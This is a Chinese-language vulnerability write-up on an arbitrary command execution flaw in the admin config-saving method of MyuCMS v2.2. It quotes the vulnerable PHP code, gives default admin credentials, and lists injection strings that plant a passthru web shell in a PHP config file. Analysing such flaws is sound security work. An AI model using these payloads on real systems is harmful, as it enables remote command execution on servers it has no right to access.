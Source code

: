 ## 1. 漏洞介绍

MyuCMS开源内容管理系统,采用ThinkPHP开发而成的社区商城聚合，插件，模板，轻便快捷容易扩展 其2.2版本中admin.php/config/add方法存在任意命令执行漏洞.

[Arbitrary command execution of Myucms v2.2 config.php add() method · Issue #6 · lolipop1234/XXD · GitHub](https://github.com/lolipop1234/XXD/issues/6)

相关源码【application/admin/controller/Config.php】

```php
public function add()
    {
       $path = 'application/extra/web.php';
       $file = include $path;      // $file 的内容为 web.php 中返回的配置数组的值
       $config = array( // 读取 post 中提交的配置内容
         'WEB_RXT' => input('WEB_RXT'),
         'WEB_GL' => input('WEB_GL'),
         'WEB_REG' => input('WEB_REG'),
         'WEB_TAG' => input('WEB_TAG'),
         'WEB_OPE' => input('WEB_OPE'),
         'WEB_BUG' => input('WEB_BUG'),
         'WEB_BBS' => input('WEB_BBS'),
         'WEB_SHOP' => input('WEB_SHOP'),
         'WEB_INDEX' => input('WEB_INDEX'),
         'WEB_KEJIAN' => input('WEB_KEJIAN'),
         'WEB_KEJIANS' => input('WEB_KEJIANS'),
         'Cascade' => input('Cascade'),
         //七牛
         'bucket' => input('bucket'),
         'accessKey' => input('accessKey'),
         'secrectKey' => input('secrectKey'),
         'domain' => input('domain'),
         'qiniuopen' => input('qiniuopen'),
       );
        $res = array_merge($file, $config); // 合并两个数组
        $str = '<?php return [';
        foreach ($res as $key => $value) { // 循环数组，生成新的配置内容
            $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
        }
        $str .= ']; ';
        if (file_put_contents($path, $str)) { // 将配置内容写入 web.php 文件
            return json(array('code' => 200, 'msg' => '修改成功'));
        } else {
            return json(array('code' => 0, 'msg' => '修改失败'));
        }
    }
```

`$config` 未对参数内容做验证，而直接通过循环遍历，拼接到了php后缀的配置文件中。

## 2. 漏洞复现

后台登陆信息：admin/admin/123456，示例  

```php
',passthru($_POST["cmd"]),'
',phpinfo(),'
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241628344.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241629794.png)

注，下面问题，post 提交 cmd 就可解决

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241631108.png)
